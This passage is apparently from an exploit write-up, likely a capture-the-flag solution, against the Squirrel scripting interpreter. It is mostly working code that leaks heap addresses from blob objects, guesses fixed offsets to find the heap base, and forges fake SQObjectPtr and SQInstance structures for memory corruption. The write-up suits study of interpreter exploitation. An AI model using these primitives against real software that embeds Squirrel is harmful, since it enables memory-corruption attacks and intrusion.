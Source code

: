 ```
blob_1 <- blob(1000)
blob_inst_addr <- blob_1.tostring().slice(14, -1).tointeger(16)
```

Sure this might seem like it does not benefit us very much as this is a
**heap** object and we don't know where it lies - but this is actually not
correct. As we are the only ones using this instance we can _guess_ the
offset of the blob fairly accurately - allowing us to leak the heap base
address.

Not only can we guess the `SQInstance` offset, but also the `SQBlob`
location and the associated buffer.

```
BLOB1_OFFSET <- 0x22df0
BLOB1_CONTENT_OFFSET <- BLOB1_OFFSET + 0xb0
heap_base <- blob_inst_addr - BLOB1_OFFSET
```

So now back to crafting our custom blob:  
The way `SQInstance`s work we need to supply the address of a class in
order for the `blob` to function correctly, luckily leaking this is just
as trivial:

```
blob_cls_addr <- blob.tostring().slice(11, -1).tointeger(16)
```

Now to build the `SQObjectPtr` we can use the following function:

```
create_stackobj <- function(blb, type_, ptr)
{
	blb.writen(type_, 'i') // type
	blb.writen(0, 'i')     // padding
	p64(blb, ptr)          // object pointer
}
```

And for the `SQInstance`:

```
create_instance <- function(blb, class_addr, userptr)
{
	p64(blb, 0xdeadbeef) // _vptr.SQRefCounted
	p64(blb, 100)        // _uiRef
	p64(blb, 0)          // _weakref
	p64(blb, 0)          // _next
	p64(blb, 0)          // _prev
	p64(blb, 0)          // _sharedstate
	p64(blb, 0)          // _delegate
	p64(blb, class_addr) // _class
	p64(blb, userptr)    // _userpointer
	p64(blb, 0xdeadbeef) // _hook
	p64(blb, 104)        // _memsize
	p64(blb, 0)          // _values pt1
	p64(blb, 0)          // _values pt2
}
```
